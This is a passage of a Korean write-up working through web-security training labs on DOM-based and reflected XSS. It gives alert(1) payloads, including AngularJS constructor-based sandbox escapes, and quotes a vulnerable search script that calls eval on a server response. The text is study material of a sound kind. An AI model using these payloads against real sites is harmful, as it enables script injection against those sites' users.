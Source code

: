 `?storeId=dfgdfg`를 입력하면 다음과 같이 요소가 추가된다.
```html
<select name="storeId">
	<option selected="">dfgdfg</option>
	<option>London</option>
	<option>Paris</option>
	<option>Milan</option>
</select>
```

다음을 파라미터로 넘겨주면 문제가 해결된다.
```html
?productId=1&&storeId=<script>alert(1)</script>
```

## DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
---

`<script type="text/javascript" src="/resources/js/angular_1-7-7.js"></script>`나 `ng`를 통해 angularjs를 사용한다는 것을 알 수 있다.

다음을 입력하면 문제가 해결된다.

```js
{{constructor.constructor('alert(1)')()}}
```

```js
{{$on.constructor('alert(1)')()}}
```

## Reflected DOM XSS
---

search 창에 아무거나 입력한 후 search하는 웹 페이지에서 개발자 도구를 열어보면 다음과 같은 script 태그를 찾을 수 있다.

```html
<script src='/resources/js/searchResults.js'></script>

<script>search('search-results')</script>
```

`/resources/js/searchResults.js`를 통해 `search()`함수가 어떻게 작동하는 지 알아보자.

```js
function search(path) {
    var xhr = new XMLHttpRequest();
    xhr.onreadystatechange = function() {
        if (this.readyState == 4 && this.status == 200) {
            eval('var searchResultsObj = ' + this.responseText);
            displaySearchResults(searchResultsObj);
        }
    };
    xhr.open("GET", path + window.location.search);
    xhr.send();

    function displaySearchResults(searchResultsObj) {
        var blogHeader = document.getElementsByClassName("blog-header")[0];
        var blogList = document.getElementsByClassName("blog-list")[0];
        var searchTerm = searchResultsObj.searchTerm
        var searchResults = searchResultsObj.results

        var h1 = document.createElement("h1");
        h1.innerText = searchResults.length + " search results for '" + searchTerm + "'";
        blogHeader.appendChild(h1);
        var hr = document.createElement("hr");
        blogHeader.appendChild(hr)
```